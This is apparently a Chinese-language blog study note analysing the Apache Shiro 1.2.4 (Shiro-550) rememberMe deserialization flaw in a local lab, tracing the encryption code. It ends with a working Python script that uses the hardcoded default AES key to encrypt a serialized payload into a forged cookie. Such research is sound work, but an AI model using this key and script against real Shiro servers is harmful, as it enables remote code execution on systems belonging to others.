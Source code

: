 ```yaml
---
title: Java反序列化Shiro篇01-Shiro550
date: 2025-10-3 20:00:00
tags: JAVA
categories: JAVA安全-JAVA反序列化
---
```


# 环境搭建

- jdk8u65

- [Tomcat8.5.81下载](https://archive.apache.org/dist/tomcat/tomcat-8/v8.5.81/bin/)

- shiro 1.2.4

**漏洞影响版本：Shiro <= 1.2.4**

P神的项目:[JavaThings/shirodemo at master · phith0n/JavaThings](https://github.com/phith0n/JavaThings/tree/master/shirodemo)

## IDEA配置

打开这个项目然后去配置

![image-20251003152451810](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003152451810.png)

默认访问的是http://localhost:8080/，地址要和这里配置的URL要相同，要不然就会404

![image-20251003154413341](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003154413341.png)

## 运行测试

运行`login.jsp`，默认的路径是http://localhost:8080/，需要修改为`http://本地ip/shirodemo_war/login.jsp`，

**需要注意的几个点：**

1. URL路径要和配置中相同
2. 将localhost改为本地ip是为了bp抓到包
3. bp和proxy插件都需要修改为监听本地ip才可以抓到包
4. bp默认的8080监听端口被上面我们运行的服务占用了，所以要换个端口

#  Shiro-550 分析

**账号密码为`root:secret`**

## 漏洞原理

勾选 `RememberMe` 字段，登陆成功的话，返回包 `set-Cookie` 会有 `rememberMe=deleteMe` 字段，还会有 `rememberMe` 字段，之后的所有请求中 `Cookie` 都会有 `rememberMe` 字段，那么就可以利用这个 `rememberMe` 进行反序列化，从而 `getshell`。

![image-20251003162822079](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003162822079.png)

Shiro1.2.4 及之前的版本中，AES 加密的密钥默认**硬编码**在代码里（Shiro-550），Shiro 1.2.4 以上版本官方移除了代码中的默认密钥，要求开发者自己设置，如果开发者没有设置，则默认动态生成，降低了固定密钥泄漏的风险。

## 分析加密过程

输入账号密码并且勾选remember登录时，在`onSuccessfulLogin`方法开头断点

先清楚之前的`rememberme`字段，if这里会判断token中是否存在`rememberme`字段

![image-20251003170657990](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003170657990.png)

如果存在，进入到`rememberIdentity`，`getIdentityToRemeber`从认证信息里提取需要记住的身份信息，返回的是一个`PrincipalCollection`，这是一个`Shiro`用来统一存储用户身份的集合

![image-20251003171247458](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003171247458.png)

然后继续跟进`this.rememberIdentity()`，`convertPrincipalsToBytes`将`principals`序列化，并且检查有没有加密服务，有的话再调用`encrypt`将数组加密

![image-20251003172005916](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003172005916.png)

进入到`encrypt`函数查看加密过程，`CipherService`实例化了一个`AES`加密，加密的第一个参数是需要加密的值，第二个参数是加密的`key`值，key值是通过`getEncryptionCipherKey`调用，去看看key值是什么

![image-20251003181117613](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003181117613.png)

![image-20251003172759874](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003172759874.png)

`getEncryptionCipherKey`获取到一个私有属性的`encryptionCipherKey`值，但是该值为空，找一下`encryptionCipherKey`这个值是怎么设置的

![image-20251003173521583](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003173521583.png)

通过一步一步跟进`setCipherKey`，得到key值是个固定的值

![image-20251003173612782](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003173612782.png)

先序列化然后加密，加密的秘钥也有了，然后去看解密

## 解密分析过程

这个函数先检查是否是HTTP请求，然后检查是否标记了'身份已被移除'，然后cookie中读取出`base64`编码的信息，检查是否是`deleteMe`，否则将base64解码

![image-20251003175540811](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003175540811.png)

![image-20251003174639521](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003174639521.png)

向上去找，检查谁调用了`getRememberedSerializedIdentity`，当前类下没有，去找他的父类，父类`AbstractRememberMemanger`的`getRememberedPrincipals`方法调用了当前类下的`getRememberedSerializedIdentity`，但是父类的`getRememberedSerializedIdentity`是抽象方法，子类对该方法进行了重写，所以调用的就是子类的`getRememberedSerializedIdentity`方法

上面那个函数将`base64`解码后的`rememberme`值进行返回，这里保存在了bytes中，bytes不为空且长度大于0就会执行`convertBytesToPrincipals`函数

![image-20251003175627809](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003175627809.png)

`convertBytesToPrincipals`中先进行解密，然后反序列化，

![image-20251003180024979](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003180024979.png)

解密函数和上面的加密函数的步骤是一样的，代码都大致一样，只有加解密函数不同，也是AES解密，然后跟进`getDecryptionCipherKey`函数

![image-20251003181257713](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003181257713.png)

![image-20251003180448312](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003180448312.png)

同样的获取和设置`key`值的方法，key值相同

![image-20251003180755459](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003180755459.png)

![image-20251003180809573](./Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Shiro%E7%AF%8701-Shiro550/image-20251003180809573.png)

# 漏洞利用

上面已经分析过`rememberme`的加密方式了，所以利用方式就是构造攻击链，序列化之后使用AES加密，替换`rememberme`的值，就可以做到任意代码执行

将序列化后的值输出到`urldns.ser`中，然后进行加密后替换

加密脚本

>  pip3 install pycryptodome

```python
# －*-* coding:utf-8
# @Time    :  2022/7/13 17:36
# @Author  : Drunkbaby
# @FileName: poc.py
# @Software: VSCode
# @Blog    ：https://drun1baby.github.io/

from email.mime import base
from pydoc import plain
import sys
import base64
from turtle import mode
import uuid
from random import Random
from Cryptodome.Cipher import AES


def get_file_data(filename):
    with open(filename, 'rb') as f:
        data = f.read()
    return data


def aes_enc(data):
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
    return ciphertext


def aes_dec(enc_data):
    enc_data = base64.b64decode(enc_data)
    unpad = lambda s: s[:-s[-1]]
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    mode = AES.MODE_CBC
    iv = enc_data[:16]
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    plaintext = encryptor.decrypt(enc_data[16:])
    plaintext = unpad(plaintext)
    return plaintext


if __name__ == "__main__":
    data = get_file_data("urldns.ser")
    print(aes_enc(data))

```

